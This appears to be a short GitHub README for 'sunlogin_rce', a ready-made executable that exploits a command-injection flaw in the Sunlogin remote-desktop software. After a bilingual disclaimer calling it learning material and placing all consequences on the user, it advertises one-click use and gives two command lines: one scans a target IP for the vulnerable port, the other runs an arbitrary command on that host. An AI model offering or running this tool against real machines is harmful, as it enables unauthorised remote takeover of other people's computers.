 # sunlogin_rce
# 免责声明
仅供学习交流，未经作者许可不得转载
任何因传播和使用本工具而造成的直接或间接后果和损失均由用户自行承担，作者对此不承担任何责任。
# Disclaimer
It is only for learning and communication, and cannot be reproduced without the permission of the author
Any direct or indirect consequences and losses caused by the dissemination and use of this tool are the responsibility of the user, and the author does not assume any responsibility for this.
# 向日葵 命令注入（rce）利用 无需安装任何语言环境 无需编译 一键运行。
sunlogin_rce.exe -H ip 扫描存在的端口

sunlogin_rce.exe -H ip -P rce 端口 -C 执行命令
